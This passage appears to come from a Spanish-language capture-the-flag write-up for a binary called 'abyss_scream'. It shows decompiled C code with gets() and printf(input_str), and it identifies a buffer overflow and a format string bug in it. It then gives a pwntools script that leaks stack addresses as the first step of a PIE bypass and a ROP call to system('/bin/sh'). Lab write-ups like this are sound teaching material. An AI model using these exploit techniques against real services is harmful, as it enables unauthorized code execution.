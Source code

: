 ```c
  char *local_10;
  
  local_10 = (char *)calloc(8,1);
  printf("You can now scream a longer message but before you do so, we\'ll take your name: ");
  fflush(stdout);
  gets(local_10);
  printf("Saved score of %d for %s. Date and Time: ",(ulong)param_1,local_10);
  fflush(stdout);
  system("date");
  printf("Now please add a message: ");
  fflush(stdout);
  gets(input_str);
  puts("Your message:");
  printf(input_str);
  puts("");
  fflush(stdout);
  return;
}
```

Vemos que si introducimos un `x`, entraremos en `save_msg`, que tiene una vulnerabilidad de tipo *BOF* y un *Format String*.

# Explotación

Con esta información podemos plantear un ataque que consista en leakear la dirección base de `main` para poder saltarnos el *PIE* y mediante *ROP* llamar a `system` con la cadena `/bin/sh\0` como argumento.

## Leakeando direcciones

Comenzaremos sacando las direcciones que hay en el stack, para ver si podemos encontrar la dirección base de `main`. Para ello, abusaremos del *Format String* mediante este script:

```python
from pwn import *

exe = './abyss_scream'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'warning'

def send_payload(payload, name):
   p.recvuntil(b"input: ")
   p.sendline(b"x")
   p.recvuntil(b"name: ")
   p.sendline(name)
   p.recvuntil(b"message: ")
   p.sendline(payload)

data = b""
i = 0
name_str = "bytebl33d"
for i in range(50):
   try:
      p = start()
      send_payload(f"%{i}$p".encode(), name=name_str)
      p.recvuntil(b"Your message:\n")
      data = p.recvuntil(b"\n")
      print(i, data)
      p.recvuntil(b"input: ")
      p.close()
   except EOFError:
      pass
```